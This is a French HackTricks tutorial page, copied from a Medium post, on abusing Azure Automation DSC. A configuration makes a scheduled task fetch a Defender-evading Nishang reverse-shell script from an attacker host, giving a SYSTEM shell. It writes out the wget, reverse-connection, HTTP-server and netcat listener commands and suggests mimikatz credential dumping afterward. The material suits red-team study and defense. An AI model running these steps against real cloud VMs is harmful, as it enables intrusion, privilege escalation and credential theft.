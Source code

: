 # Az - Configuration d'état RCE

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

**Ce post a été copié de** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Préparation de l'infrastructure du serveur distant (C2) <a href="#f0fa" id="f0fa"></a>

Je vais héberger une version allégée du payload Nishang Invoke-PowerShellTcp.ps1 depuis le serveur distant "40.84.7.74", qui est la machine Kali. Le nom du payload sera "RevPS.ps1". Pour éviter que le script Nishang soit supprimé par Windows Defender pour une raison quelconque (peut-être préférez-vous déposer le fichier sur le disque), j'ai ici une version allégée que vous pouvez utiliser qui contournera Defender : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/RevPS.ps1). Ceci sera hébergé par un simple serveur Python Simple Server sur la machine Kali.

### Étape 1 — Créer des fichiers <a href="#89de" id="89de"></a>

Nous devrons créer un autre fichier de configuration DSC. Un modèle peut être téléchargé ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1). Ce fichier de configuration utilisera la même fonction d'écriture de fichier que nous avons précédemment utilisée. Cette fois, le contenu comprend du code pour télécharger et exécuter un payload depuis notre serveur distant. De plus, nous utilisons une fonction de tâche planifiée disponible dans le module _ComputerManagementDsc_. La fonction de tâche planifiée jouera un rôle clé dans l'exécution et nous fournira des privilèges SYSTEM plus tard.

Nous téléchargerons également un script qui sera utilisé pour publier notre configuration sur la VM. Il se trouve ici : [https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1).

Ces fichiers serviront de modèle. **Vous devrez remplir les noms de variables et les paramètres avec ce que vous utilisez**. Cela inclut les noms de ressources, les chemins de fichiers et les noms de serveurs/payloads externes que vous utilisez. Veuillez vous référer aux commentaires dans le code.

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Étape 2 — Compresser le fichier de configuration <a href="#c2c2" id="c2c2"></a>

Avec nos deux fichiers créés, nous allons compresser le fichier **‘reverse\_shell\_config.ps1’** afin de pouvoir l'envoyer au compte de stockage
```
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
### Étape 3 — Définir le contexte de stockage et téléverser <a href="#bed9" id="bed9"></a>

Nous allons à nouveau configurer le contexte de notre compte de stockage, ce que j'ai déjà fait. J'ai déjà un conteneur nommé '**azure-pentest**', c'est donc là que je vais publier le mien :
```
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
### Étape 4 — Préparation de la Kali Box <a href="#20fb" id="20fb"></a>

Dans notre Kali box, nous pouvons simplement utiliser _wget_ pour télécharger notre payload PowerShell. Le script brut de reverse-shell se trouve ici : [https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1](https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1).
```
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
```markdown
<figure><img src="../../../../.gitbook/assets/image (8) (2).png" alt=""><figcaption></figcaption></figure>

Nous devons modifier le script de reverse-shell en y ajoutant nos paramètres, afin que la VM Windows sache où se connecter une fois qu'il est exécuté. Dans mon cas, j'ajoute ce qui suit :
```
```
RevPShell -Reverse 40.84.7.73 443
```
### Étape 5 — Publier le fichier de configuration <a href="#9ad6" id="9ad6"></a>

Nous allons maintenant exécuter notre fichier de configuration. J'ai configuré le mien pour qu'il soit publié sur le Bureau pour une meilleure visualisation, cependant, il peut être publié presque partout. Après quelques minutes, nous verrons que le script de reverse-shell a été publié !

<figure><img src="../../../../.gitbook/assets/image (2) (3).png" alt=""><figcaption></figcaption></figure>

### Étape 6 — Héberger le Payload et Configurer l'Écouteur <a href="#c55f" id="c55f"></a>

Une fois que nous avons publié la configuration, nous pouvons simultanément démarrer un SimpleHTTPServer Python sur le port 80 pour héberger le payload, ainsi qu'un écouteur netcat afin de capturer la connexion :
```
sudo python -m SimpleHTTPServer 80sudo nc -nlvp 443
```
Nous constatons que la tâche planifiée a été exécutée et notre charge utile a été récupérée et exécutée en mémoire avec des privilèges de niveau **SYSTEM** !

<figure><img src="../../../../.gitbook/assets/image (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

### Conclusion <a href="#1ec2" id="1ec2"></a>

Cela ouvre désormais la porte à de nombreuses possibilités. Puisque nous avons un shell fonctionnant en tant que **SYSTEM,** nous pouvons extraire les identifiants avec mimikatz (potentiellement risqué selon la maturité de l'EDR pour les ressources cloud). Si vous extrayez des identifiants, il y a de bonnes chances qu'ils puissent être réutilisés ailleurs sur différentes ressources. Enfin, un point important à retenir est que, au lieu de limiter cela à une seule VM, vous avez maintenant la capacité de potentiellement appliquer cette configuration à plusieurs VM.

Sur cette note, cela conclut nos aventures avec Azure Automation DSC ! J'espère que vous vous êtes amusés, que vous avez beaucoup appris et que vous continuerez à vous développer avec votre propre créativité.

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
